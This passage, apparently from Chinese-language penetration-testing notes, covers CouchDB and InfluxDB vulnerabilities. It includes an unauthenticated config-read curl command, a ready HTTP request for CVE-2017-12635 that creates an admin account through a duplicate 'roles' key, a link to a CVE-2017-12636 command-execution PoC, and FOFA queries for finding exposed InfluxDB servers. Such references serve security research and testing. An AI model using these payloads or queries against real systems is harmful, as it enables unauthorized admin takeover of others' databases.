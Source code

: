     `curl http://[ip]:5984/_config`

**CVE-2017-12635 垂直权限绕过漏洞**
- 概述

    CVE-2017-12635 是由于 Erlang 和 JavaScript 对 JSON 解析方式的不同，导致语句执行产生差异性导致的。这个漏洞可以让任意用户创建管理员，属于垂直权限绕过漏洞。

- 影响版本
    - 小于 1.7.0 以及 小于 2.1.1

- POC | Payload | exp

    来源 : [Couchdb 垂直权限绕过漏洞（CVE-2017-12635）](https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2017-12635/README.md)
    ```
    PUT /_users/org.couchdb.user:vulhub HTTP/1.1
    Host: your-ip:5984
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/json
    Content-Length: 108

    {
    "type": "user",
    "name": "vulhub",
    "roles": ["_admin"],
    "roles": [],
    "password": "vulhub"
    }
    ```

**CVE-2017-12636 任意命令执行漏洞**
- 概述

    CVE-2017-12636 是一个任意命令执行漏洞，我们可以通过 config api 修改 couchdb 的配置 query_server，这个配置项在设计、执行 view 的时候将被运行。

- 影响版本
    - 小于 1.7.0 以及 小于 2.1.1

- POC | Payload | exp
    - [Couchdb 任意命令执行漏洞（CVE-2017-12636）](https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2017-12636/README.md)

## InfluxDB

InfluxDB 是一个使用 Go 语言编写的开源分布式，支持高并发的时序数据库

> fofa : app="influxdata-InfluxDB"
> fofa : app="InfluxDB-2.0"

**未授权访问漏洞**
- 相关文章
    - [InfluxDB API 未授权访问漏洞简单利用](https://landgrey.me/influxdb-api-unauthorized-exploit/)
    - [influxdb未授权访问漏洞](https://blog.csdn.net/weixin_43416469/article/details/113843301)
